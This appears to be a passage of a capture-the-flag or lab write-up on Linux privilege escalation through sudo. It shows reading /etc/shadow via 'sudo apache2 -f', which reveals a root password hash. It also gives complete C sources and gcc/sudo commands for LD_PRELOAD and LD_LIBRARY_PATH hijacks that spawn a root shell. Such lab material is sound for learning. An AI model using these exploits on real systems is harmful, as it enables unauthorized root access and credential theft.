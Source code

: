 11

    2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

apache2

    3. Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.

`sudo apache2 -f /etc/shadow`
```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$2GU/oXzc2$dXX8tFqwr2ENjPxZ9xgyB6PjEfJtxFc97hUt1pcbQw7MJVv2ZdL7lEdE4/XDi5M2MSxSgItJfdmgypKMdZoEm/:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

## Sudo - Environment Variables

Sudo can be configured to inherit certain environment variables from the user's environment. `sudo -l` will show which environment variables are inherited.

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```
`setresuid()` - sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. By setting these all to 0 they are set to the root user.

`sudo LD_PRELOAD=/tmp/preload.so less` now gives a root shell.

---

Run ldd against the apache2 program file to see which shared libraries are used by the program: `ldd /usr/sbin/apache2`

Next a shared object is created with the same name as one of the listed libraries `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

